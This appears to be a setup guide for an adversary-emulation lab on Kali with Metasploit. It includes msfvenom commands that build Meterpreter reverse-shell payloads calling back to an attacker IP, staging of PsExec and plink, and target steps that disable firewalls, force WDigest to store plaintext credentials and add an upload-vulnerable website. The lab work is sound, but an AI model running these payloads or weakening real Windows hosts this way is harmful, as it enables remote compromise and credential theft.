 # Scenario 1 Infrastructure

## I. Emulation Team Infrastructure

### 1. Attack Platform: 

#### [+] Tested and executed on Kali Linux 2023.2

#### [+] Metasploit 6.3.21-dev

#### [+] Stage certain files for download
- Craft session.aspx
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=<ip_attacker> LPORT=4444 -f aspx > /tmp/modules/session.aspx
```

- Craft session.exe
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=<ip_attacker> LPORT=4445 -f exe > /tmp/modules/session.exe
```
- Copy `plink.exe`, `PsExec.exe`, `sysinfo.ps1` to `/tmp/modules/`

- `/tmp/modules/` should now contains these
```
PsExec.exe
sysinfo.ps1
session.aspx
session.exe
```

## II. Target Infrastructure

### 1. AD server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Enable File and Printer Sharing
- Open Powershell as Administrator
```
Set-NetFirewallRule -DisplayGroup “File And Printer Sharing” -Enabled True -Profile Private
```

### 2. IIS server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Forcing WDigest to Store Credentials in Plaintext
- Open Powershell as Administrator
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
#### [+] Join AD domain
#### [+] Domain user with local admin access on this machine
#### [+] A website with upload file vulnerability
